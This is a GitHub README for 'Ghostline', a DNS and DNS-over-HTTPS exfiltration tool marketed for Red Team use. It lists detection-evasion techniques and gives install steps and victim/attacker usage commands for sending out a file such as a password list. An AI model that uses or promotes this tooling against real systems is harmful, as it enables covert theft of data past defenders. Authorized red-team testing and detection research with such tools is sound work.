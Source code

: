 # 👻 Ghostline

**Ghostline** is a stealth-focused DNS exfiltration framework designed for Red Team operations. Unlike traditional DNS tunneling tools like Iodine or DNScat2, Ghostline simulates realistic DNS behavior—evading modern detection systems using entropy shaping, domain rotation, TTL randomization, and optional DNS-over-HTTPS (DoH) encryption.

> 🔐 Built to leak silently. Designed to blend in. Developed to challenge Blue Teams.

---

## 🔧 Features

- ⚙️ Modular architecture for full control
- 🧬 XOR + Base64 encoded payload chunks
- 🌐 DNS and DNS-over-HTTPS (DoH) support
- 🌀 Domain rotator with CDN/typo mimicry
- 🧠 Entropy shaping to mimic real traffic
- ⏱️ Timing jitter and TTL randomization
- 📄 Passive listener (Flask) for live decoding
- 📊 Logging and analytics-ready

---

## 📦 Installation

```bash
git clone https://github.com/AnshoolDahale/Ghostline.git
cd Ghostline
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt



🚀 Usage
On Victim Machine:
Exfiltrate a file:

python3 Ghostline.py
Enter the path to the target file (e.g., /home/user/passwords.txt)

On Attacker Machine:
Start Passive Logger

python3 receiver/passive_logger.py
Reconstruct Received Data

python3 -m receiver.decoder
Output will be saved to:

receiver/reconstructed_output.bin
📁 Project Structure
Ghostline/
├── encoder/              # Payload encoding & XOR logic
├── dns_sender/           # Chunk sender with DNS/DoH logic
├── receiver/             # Passive receiver & decoder
├── utils/                # Timing & entropy helpers
├── config/               # Config file (chunk size, DoH toggle, etc.)
├── logs/                 # Sent chunks stored here
├── Ghostline.py          # Main CLI entry point
🧠 Research-Based Design
Ghostline is based on insights from 9 advanced papers on DNS exfiltration and detection. Techniques used:

GAN-based domain crafting (DOLOS)

FFT & DTW for timing anomaly evasion

Entropy tuning for lexical models

DoH tunneling evasion via flow masking

Mimicry of subdomains based on CDN & human typos

⚠️ Disclaimer
Ghostline is strictly intended for educational, research, and authorized Red Team use only. Misuse of this tool can result in criminal charges. Use responsibly.

✨ Author
Made with ❤️ by Anshool Dahale

contact me for clear explanation of working , or doubts regarding the tool
🔗 ph : 8328004134
📧 anshooldahale08@gmail.com
